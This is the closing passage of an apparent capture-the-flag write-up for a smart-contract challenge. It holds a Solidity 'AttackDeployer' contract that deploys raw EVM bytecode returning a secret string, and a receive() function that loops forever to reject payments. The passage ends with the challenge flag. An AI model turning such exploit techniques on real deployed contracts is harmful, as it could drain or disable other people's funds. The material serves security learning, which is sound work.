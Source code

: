 ```solidity
        console.log("SecretIsLeaked : ", secretChecker.SecretIsLeaked());

        vm.stopBroadcast();
    }
}

contract AttackDeployer {
    function exploit() public returns (address) {
         //    bytes32 secret = bytes32(abi.encodePacked("I'm_L0yal;)")) >> (24 * 7); //0x00000000000000000000000000000000000000000049276d5f4c3079616c3b29
    //    console.logBytes32(secret);
    // RUNTIME : 6a49276d5f4c3079616c3b2960005260206000f3  // 6a49276d5f4c3079616c3b29600052600b6015f3
    // INIT: 6014600c60003960146000f3 6a49276d5f4c3079616c3b2960005260206000f3
        bytes memory bytecode = hex"6014600c60003960146000f36a49276d5f4c3079616c3b2960005260206000f3";
        address _solver;
        uint256 _size;
        
        assembly {
            _solver := create(0, add(bytecode, 0x20), mload(bytecode))
            _size := extcodesize(_solver)
        }
        require(_solver != address(0));
        console.log("Code size : ", _size);
        return _solver;
    }
    
    receive() external payable {
        uint256 a = 2;
        while (true) {
            a = a * a;
        }   
    }
}
```

{%end%}

The flag `r3venge_t4k3n_5ucc3s5fu11y!;)` is well deserved for this clever exploit that combines multiple concepts in smart contract security!

***

Thanks to making it this far!
